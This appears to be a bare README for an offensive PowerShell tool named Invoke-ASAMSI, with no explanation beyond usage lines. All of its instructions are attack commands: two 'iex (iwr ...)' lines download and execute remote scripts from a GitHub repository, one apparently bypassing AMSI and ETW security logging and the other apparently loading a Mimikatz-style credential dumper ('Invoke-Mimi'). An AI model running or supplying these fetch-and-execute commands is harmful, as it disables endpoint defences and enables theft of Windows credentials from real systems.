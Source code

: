 # Invoke-ASAMSI

# Instructions

```

```iex (iwr -UseBasicParsing https://raw.githubusercontent.com/ASP4RUX/Invoke-AMSI/refs/heads/main/Invoke-ASAMSI.ps1)

```Invoke-ASAMSI -etw -v

```iex (iwr -UseBasicParsing https://raw.githubusercontent.com/ASP4RUX/Invoke-AMSI/refs/heads/main/Invoke-Mimi.ps1)
